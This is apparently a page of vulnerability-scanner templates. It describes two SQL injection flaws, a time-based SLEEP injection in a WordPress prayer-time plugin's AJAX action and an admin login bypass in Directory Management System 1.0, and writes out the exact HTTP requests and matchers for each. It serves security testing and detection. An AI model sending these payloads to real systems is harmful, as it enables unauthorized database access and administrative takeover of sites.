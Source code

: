 **Type - status**
- status
    1. 200

---
# Daily Prayer Time < 2022.03.01 - Unauthenticated SQLi
## Description
- The Daily Prayer Time WordPress plugin before 2022.03.01 does not sanitise and escape the month parameter before using it in a SQL statement via the get_monthly_timetable AJAX action (available to unauthenticated users), leading to an unauthenticated SQL injection.

- severity - critical
- tags - sqli,wordpress,wp-plugin,unauth,daily-prayer-time-for-mosques,wpscan,cve,cve2022,wp
## Requests
### Step - 1
```
@timeout: 10s
GET /wp-admin/admin-ajax.php?action=get_monthly_timetable&month=1+AND+(SELECT+6881+FROM+(SELECT(SLEEP(6)))iEAn) HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - dsl**
- dsl
    1. duration>=6
    2. status_code == 200
    3. contains(content_type, "text/html")
    4. contains(body, "dptTimetable customStyles dptUserStyles")
- condition - and

---
# Directory Management System 1.0 - SQL Injection
## Description
- Directory Management System 1.0 contains multiple SQL injection vulnerabilities via the username and password parameters in the Admin panel. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - cve,cve2022,sqli,auth-bypass,edb
## Requests
### Step - 1
```
POST /admin/index.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

username=admin' or '1'='1&password=1&login=login

```
### Step - 2
```
GET /admin/dashboard.php HTTP/1.1
Host: {{Hostname}}
```
